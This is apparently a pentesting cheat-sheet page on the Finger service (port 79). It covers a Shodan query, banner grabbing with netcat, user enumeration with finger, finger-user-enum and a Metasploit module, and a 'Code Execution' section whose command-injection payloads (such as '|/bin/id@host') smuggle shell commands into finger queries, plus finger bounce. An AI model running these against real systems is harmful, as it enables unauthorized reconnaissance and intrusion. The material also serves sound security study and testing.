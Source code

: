 ```yaml
---
title: Finger Pentesting Best Practices
categories: [pentesting protocols,finger]
tags: [pentesting,finger,best practicies]
comments: true
---
```


# Finger

<aside>
💡 Finger usually uses port 79

</aside>

# What is Finger?

Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

```bash
PORT     STATE SERVICE               VERSION
79/tcp   open  fing                  Debian fingerd 
```

# Finger Pentesting

<aside>
<img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query: <br>
<p>&#9634; port:79 </p>

</aside>

## Banner Grabbing

```bash
nc -vn 10.10.x.x 79
echo "root" | nc -vn 10.10.x.x 79
```

## Finger Credentials

## User Enumeration

```bash
finger @10.10.x.x      #List users
finger admin@10.10.x.x #Get info of user
finger user@10.10.x.x  #Get info of user

#########
finger admin@192.186.x.x 
Login: admin                            Name: Jhon Doe 
Directory: /home/admin                  Shell: /bin/bash 
Never logged in. 
No mail. 
No Plan.
```

## Alternatively you can use finger-user-enum from pentestmonkey, some examples:

Download script and run it with a wordlist: [HERE](https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum-user-docs.pdf)

`finger-user-enum.pl` is a tool for enumerating OS-level user accounts via the finger service. As of release v1.0 it is known to work against the default Solaris daemon. It may not yet work against all daemons since there is no defined format for the data returned by the finger service.

```bash
finger-user-enum.pl -U users.txt -t 10.10.x.x
finger-user-enum.pl -u root -t 10.10.x.x
finger-user-enum.pl -U users.txt -T ips.txt
```

![Untitled](/assets/img/pitcures/finger/finger.png)

## Metasploit module for user enumeration

```bash
use auxiliary/scanner/finger/finger_users
```

![Untitled](/assets/img/pitcures/finger/finger1.png)

## Code Execution

```bash
finger "|/bin/id@10.10.x.x"
finger "|/bin/ls -a /@10.10.x.x"
```

## Finger Bounce

```bash
finger user@host@victim
finger @internal@external
```